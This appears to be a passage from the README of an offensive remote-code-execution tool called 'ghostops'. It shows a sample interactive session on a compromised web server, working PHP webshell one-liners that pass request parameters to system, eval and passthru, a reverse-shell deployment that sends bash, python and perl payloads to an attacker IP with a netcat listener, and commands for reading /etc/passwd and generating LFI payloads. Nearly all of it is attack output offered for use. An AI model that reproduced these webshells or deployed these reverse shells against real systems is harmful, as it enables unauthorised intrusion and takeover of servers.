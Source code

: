 ```bash
[+] Interactive shell started!
[*] RCE Method: data_base64
[*] Commands: 'exit' to quit, 'revshell' for reverse shell
[*] Commands: 'generate <type>' for payloads

ghostops@target:~$ whoami
www-data

ghostops@target:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

ghostops@target:~$ pwd
/var/www/html

ghostops@target:~$ generate shells

[WEBSHELLS]
minimal: <?php system($_GET["cmd"]); ?>
request: <?php system($_REQUEST["cmd"]); ?>
post: <?php system($_POST["cmd"]); ?>
eval: <?php eval($_REQUEST["cmd"]); ?>
passthru: <?php passthru($_GET["cmd"]); ?>

ghostops@target:~$ revshell
Enter your IP: 10.10.10.1
Enter your port [4444]: 4444

============================================================
[PHASE 4] Reverse Shell Deployment
============================================================
[*] Target: 10.10.10.1:4444
[*] Method: data_base64
[!] Make sure listener is running: nc -lvnp 4444

[*] Trying bash_tcp...
[+] Payload sent!
[*] Trying python...
[+] Payload sent!
[*] Trying perl...
[+] Payload sent!

[+] All payloads sent! Check your listener.
```

---

## 🎮 Interactive Shell Commands

When you're in the interactive shell, you can:

```bash
# Execute any command
ghostops@target:~$ whoami
ghostops@target:~$ cat /etc/passwd
ghostops@target:~$ ls -la /var/www/html

# Deploy reverse shell
ghostops@target:~$ revshell
Enter your IP: 10.10.10.1
Enter your port: 4444

# Generate payloads on-demand
ghostops@target:~$ generate shells      # Get webshells
ghostops@target:~$ generate lfi         # Get LFI payloads
```